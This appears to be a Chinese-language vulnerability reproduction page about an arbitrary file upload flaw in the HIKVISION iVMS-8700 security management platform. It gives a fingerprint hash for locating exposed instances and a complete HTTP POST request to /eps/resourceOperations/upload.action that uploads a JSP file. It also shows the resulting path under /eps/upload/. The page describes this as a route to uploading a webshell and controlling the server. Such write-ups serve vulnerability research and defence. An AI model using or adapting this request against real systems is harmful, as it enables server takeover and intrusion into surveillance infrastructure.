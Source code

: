 # HIKVISION iVMS-8700综合安防管理平台 upload.action 任意文件上传

## 漏洞描述

HIKVISION iVMS-8700综合安防管理平台存在任意文件上传漏洞，攻击者通过发送特定的请求包可以上传Webshell文件控制服务器

## 漏洞影响

<a-checkbox checked>HIKVISION iVMS-8700综合安防管理平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="-911494769"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1637649859645-abee2ae8-c4e5-46a1-b50e-54f9b7e7c019-20230622122052279.png)

发送请求包上传文件

```python
POST /eps/resourceOperations/upload.action HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: MicroMessenger
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ISMS_8700_Sessionname=CA0F207A6372FE883ACA78B74E6DC953; CAS-USERNAME=058; ISMS_8700_Sessionname=4D808BE7BE0E5C7047B9688E6009F710
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTJyhtTNqdMNLZLhj
Content-Length: 212

------WebKitFormBoundaryTJyhtTNqdMNLZLhj
Content-Disposition: form-data; name="fileUploader";filename="test.jsp"
Content-Type: image/jpeg

<%out.print("hello");%>
------WebKitFormBoundaryTJyhtTNqdMNLZLhj--
```

上传路径

![img](../../../.vuepress/public/img/1684382043879-83c87924-60a0-40d2-a8b4-54210e068734.png)

```python
/eps/upload/769badc8ef5944da804a4ca3c8ecafb0.jsp
```

![img](../../../.vuepress/public/img/1684382084856-9d10ea21-17af-4290-89ed-76420b8b3cd9.png)